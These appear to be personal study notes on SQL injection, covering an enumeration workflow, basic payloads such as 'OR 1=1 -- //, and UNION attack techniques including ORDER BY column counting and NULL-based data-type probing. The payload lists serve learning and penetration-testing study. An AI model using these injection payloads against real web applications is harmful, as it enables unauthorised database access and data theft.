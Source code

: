 ### Web Enumeration Flow

Might go something like this:
1. Identify database and version
2. Research known vulnerabilities with database and version
3. Based on database info, extract the database schema
4. Follow through with attacks

## Basic Attacks

- Stuff like `'OR 1=1 -- //` etc.
    - Using the `//` even though there is already a comment starting at `--` is good to avoid whitespace truncation.
- If we have *in-band* error messaging from SQLi, can try something like
    ```
    ' or 1=1 in (SELECT <query>) -- //
    ```
    to embed a whole new query into another. If not we can use `UNION` attacks.


## UNION Attacks

Used to get data from other tables. E.g. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2;`

Requirements:
1. Column count needs to match in each sub-query on either side of `UNION` clause
2. Each column must map to a column in the other query with the same data type. E.g. in above example, if `b` is an integer then `d` must also be an integer

### Requirement 1 - Column Enumeration

Objective: find number of columns in first sub-query to match in second `UNION` sub-query.

Can be achieved via `ORDER BY` clauses:
```
' ORDER BY 1;--
' ORDER BY 2;--
' ORDER BY 3;--
...
```
and examine responses. If this doesn't work, try:
```
' UNION SELECT NULL;--
' UNION SELECT NULL, NULL;--
' UNION SELECT NULL, NULL, NULL;--
...
```
or try HackTricks/PATT/something.

### Requirement 2 - Colum Data Type Enumeration

Example payloads:
```
' UNION SELECT 'a', NULL, NULL;--
' UNION SELECT NULL, 'a', NULL;--
' UNION SELECY NULL, NULL, 'a';--
...
```
and examine responses.
